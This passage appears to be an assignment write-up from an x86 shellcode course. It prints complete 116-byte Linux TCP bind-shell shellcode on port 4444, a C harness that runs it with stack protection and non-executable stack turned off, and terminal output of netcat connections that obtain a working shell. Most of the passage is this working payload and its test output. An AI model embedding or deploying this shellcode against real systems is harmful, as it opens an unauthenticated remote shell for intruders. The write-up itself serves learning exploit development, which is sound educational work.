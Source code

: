 Compiling and linking the code...
```console
slemire@slae:~/slae32/assignment1$ ../compile.sh shell_bind_tcp
[+] Assembling with Nasm ... 
[+] Linking ...
[+] Shellcode: \x31\xc0\x31\xdb\x31\xc9\x31\xd2\xb0\x66\xb3\x01\x6a\x06\x6a\x01\x6a\x02\x89\xe1\xcd\x80\x89\xc7\x52\x52\x52\x66\x68\x11\x5c\x66\x6a\x02\x89\xe6\xb0\x66\xb3\x02\x6a\x10\x56\x57\x89\xe1\xcd\x80\xb0\x66\xb3\x04\x52\x57\x89\xe1\xcd\x80\xb0\x66\xb3\x05\x52\x52\x57\x89\xe1\xcd\x80\x89\xc7\x31\xc9\xb1\x03\x89\xfb\xb0\x3f\x49\xcd\x80\x41\xe2\xf8\x31\xc0\x68\x61\x73\x68\x41\x68\x69\x6e\x2f\x62\x68\x2f\x2f\x2f\x62\x88\x44\x24\x0b\xb0\x0b\x89\xe3\x31\xc9\x31\xd2\xcd\x80
[+] Length: 116
[+] Done!
```

Testing the ELF binary generated by NASM:
```console
slemire@slae:~/slae32/assignment1$ file shell_bind_tcp
shell_bind_tcp: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), statically linked, not stripped
[...]
slemire@slae:~/slae32/assignment1$ ./shell_bind_tcp
[...]
slemire@slae:~$ nc -nv 127.0.0.1 4444
Connection to 127.0.0.1 4444 port [tcp/*] succeeded!
id
uid=1000(slemire) gid=1000(slemire) groups=1000(slemire),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)
```

The `shellcode.c` program is then used to test the shellcode as it would used in an actual exploit:
```c
#include <stdio.h>

char shellcode[]="\x31\xc0\x31\xdb\x31\xc9\x31\xd2\xb0\x66\xb3\x01\x6a\x06\x6a\x01\x6a\x02\x89\xe1\xcd\x80\x89\xc7\x52\x52\x52\x66\x68\x11\x5c\x66\x6a\x02\x89\xe6\xb0\x66\xb3\x02\x6a\x10\x56\x57\x89\xe1\xcd\x80\xb0\x66\xb3\x04\x52\x57\x89\xe1\xcd\x80\xb0\x66\xb3\x05\x52\x52\x57\x89\xe1\xcd\x80\x89\xc7\x31\xc9\xb1\x03\x89\xfb\xb0\x3f\x49\xcd\x80\x41\xe2\xf8\x31\xc0\x68\x61\x73\x68\x41\x68\x69\x6e\x2f\x62\x68\x2f\x2f\x2f\x62\x88\x44\x24\x0b\xb0\x0b\x89\xe3\x31\xc9\x31\xd2\xcd\x80";

int main()
{
    int (*ret)() = (int(*)())shellcode;
    printf("Size: %d bytes.\n", sizeof(shellcode));
    ret();
}
```

The test program is compiled and tested:

```
slemire@slae:~/slae32/assignment1$ gcc -o shellcode -fno-stack-protector -z execstack shellcode.c    
slemire@slae:~/slae32/assignment1$ ./shellcode
[...]
slemire@slae:~$ nc -nv 127.0.0.1 4444
Connection to 127.0.0.1 4444 port [tcp/*] succeeded!
whoami
slemire
```
